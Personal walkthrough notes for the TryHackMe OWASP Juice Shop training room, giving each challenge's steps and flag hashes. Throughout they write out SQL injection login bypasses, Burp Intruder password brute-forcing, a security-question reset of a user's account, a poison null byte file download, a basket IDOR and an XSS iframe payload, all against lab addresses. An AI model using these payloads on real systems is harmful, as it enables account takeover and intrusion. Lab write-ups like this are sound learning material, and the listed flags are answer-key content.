 
#FreeRoom  #OWASP 

https://tryhackme.com/r/room/owaspjuiceshop


```
admin@juice-sh.op

http://10.10.251.68/#/search?q=test


star trek
replicator

```


## inject the juice



![[Screen Shot 2025-01-18 at 11.35.52 AM.png]]

```
http://10.10.251.68/#/login

BurpSuite - Intercept On
foxyproxy - On

email: a   password: a
send to repeater > change   email: "' or 1=1" > send

169940f83378cc420ae4fdeb9c1f73631a2baee6 == not valid

admin@juice-sh.op

select * from users where user='admin@juice-sh.op' and pass='' or 1=1--'

32a5e0f21372bcc1000a6088b93b458e41f0e02a = valid



bender@juice-sh.op'--  : a

fb364762a3c102b2db932069c0e6b78e738d4066 = valid

```


## who broke my lock 

weak passwords, weak authentication

brute forcing admin account password
```
burp suite: intruder tab


{"email":"admin@juice-sh.op","password":"§§"}


payload:  /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best1050.txt

Load payload
Intruder - Off
start attack

successful request 200
admin123

c2110d06dc6f81c67cd8099ff0ba601241f1ac0e = valid

```

reset Jim's password

```
jim star trek
L george kirk, winona kirk, george samuel kirk, tiberius kirk, james

login > forgot password

jim@juice-sh.op 
security question: Samuel
new password: starfleet

094fbc9b48e525150ba97d05b942bbf114987257 = valid

```

## dont look

about us page

```
http://10.10.251.68/ftp/legal.md

http://10.10.251.68//ftp/

    quarantine
    acquisitions.md
    announcement_encrypted.md
    coupons_2013.md.bak
    eastere.gg
    encrypt.pyc
    incident-support.kdbx
    legal.md
    package.json.bak
    suspicious_errors.yml

wget the acquisitions.md
go to homepage

edf9281222395a1c5fee9b89e32175f1ccf50c5b = valid

```


## safe search account


https://www.youtube.com/watch?v=v59CX2DiX0Y


```
password Mr.Noodles     

mc.safesearch@juice-sh.op : Mr.N00dles

mc.safesearch@juice-sh.op


66bdcffad9e698fd534003fbb3cc7e2b7b55d7f0 = valid
```


```
/ftp/
download package.json.bak
	403 Error: Only .md and .odf files allowed 

Poison Null Byte 
http://10.10.251.68/ftp/package.json.bak%2500.md    

back to homepage

bfc1e6b4a16579e85e06fee4c36ff8c02fb13795 = valid
```




## admin 

```
http://10.10.56.163/main-es2015.js

search for admin

/#/administration

946a799363226a24822008503f5d1324536629a0 = valid



as admin > check basket > capture request

GET /rest/basket/1 HTTP/1.1

change to /basket/2

41b997a36cc33fbe4f0ba018474e19ae5ce52121 = valid


/#/asministration
delete all 5 star reviews

50c97bcce0b895e446d61c83a21df371ac2266ef = valid


```


## xss

```
search box
<iframe src="javascript:alert(`xss`)">

http://10.10.56.163/#/search?q=%3Ciframe%20src%3D%22javascript:alert(%60xss%60)%22%3E

9aaf4bbea5c30d00a1f5bbcfce4db6d4b0efe0bf = valid


admin > privacy & security > last login ip
ip address 0.0.0.0
intercept ON
logout



----- needed walkthrough
https://ex0a.medium.com/tryhackme-owasp-juice-shop-53e87fb1af36

 149aa8ce13d7a4a8a931472308e269c94dc5f156
```







































